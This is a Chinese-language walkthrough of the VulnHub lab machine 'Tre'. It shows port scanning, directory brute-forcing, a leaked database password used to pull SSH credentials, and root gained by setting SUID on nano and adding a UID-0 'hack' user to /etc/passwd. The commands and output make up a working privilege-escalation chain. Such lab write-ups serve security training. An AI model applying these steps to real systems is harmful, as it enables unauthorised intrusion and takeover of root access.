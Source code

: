 # TRE: 1

> https://download.vulnhub.com/tre/Tre.zip

靶场IP：`192.168.2.132`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.132                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-04 05:54 EDT
Nmap scan report for 192.168.2.132
Host is up (0.00080s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
8082/tcp open  http    nginx 1.14.2
MAC Address: 00:0C:29:DD:27:3B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.66 seconds

```

访问80端口

![image-20220904175454146](../../.gitbook/assets/image-20220904175454146.png)

访问8082端口，也是相同页面

![image-20220904175517667](../../.gitbook/assets/image-20220904175517667.png)

爆破web目录

```
┌──(root💀kali)-[~]
└─# dirb http://192.168.2.132  /usr/share/wordlists/dirb/big.txt
```

找到一个config目录

![image-20220904181019553](../../.gitbook/assets/image-20220904181019553.png)

发现MySQL密码

```
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```

![image-20220904181042122](../../.gitbook/assets/image-20220904181042122.png)

找到一个路径：`/adminer.php`

```
┌──(root💀kali)-[~]
└─# gobuster dir --url  http://192.168.2.132/  -w /usr/share/wordlists/dirb/big.txt -x .php
```

![image-20220904181227411](../../.gitbook/assets/image-20220904181227411.png)

![image-20220904181349771](../../.gitbook/assets/image-20220904181349771.png)

使用 MySQL 数据库登录后，我们寻找任何有用的信息，我们发现该表中有一个 `mantis_user_table`，其中包含用户名和密码。

![image-20220904181440809](../../.gitbook/assets/image-20220904181440809.png)

使用tre账号连接SSH。

![image-20220904181523329](../../.gitbook/assets/image-20220904181523329.png)

使用linEnum找到`check-system`文件

```
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done

```

> 使用`pspy64`监控运行文件
>
> ![image-20220904183950391](../../.gitbook/assets/image-20220904183950391.png)

由于上述文件作为用户具有读写权限，因此使用 nano 编辑器编辑了该文件。并赋予 nano 文件的 SUID 权限，但 `/usr/bin/check-system` 将在系统重新启动时更新更改。

```
chmod +s /usr/bin/nano
```

![image-20220904183015918](../../.gitbook/assets/image-20220904183015918.png)

这里 -r 标志用于重新启动主机系统。再次检查 nano 文件系统的权限，并注意现在启用了 SUID 权限

```
sudo shutdown -r now
```

```
tre@tre:~$ ls -al /usr/bin/nano
-rwsr-sr-x 1 root root 246160 Jun 11  2019 /usr/bin/nano
tre@tre:~$ 
```

现在我可以尝试修改 passwd 文件以进行权限提升

```
tre@tre:~$ openssl passwd -1 -salt user3 pass123
$1$user3$rAGRVf5p2jYTqtqOW5cPu/
```

```
tre@tre:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tre:x:1000:1000:tre,,,:/home/tre:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
hack:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0::/root:/bin/bash

```

```
su hack
```

![image-20230208160839828](../../.gitbook/assets/image-20230208160839828.png)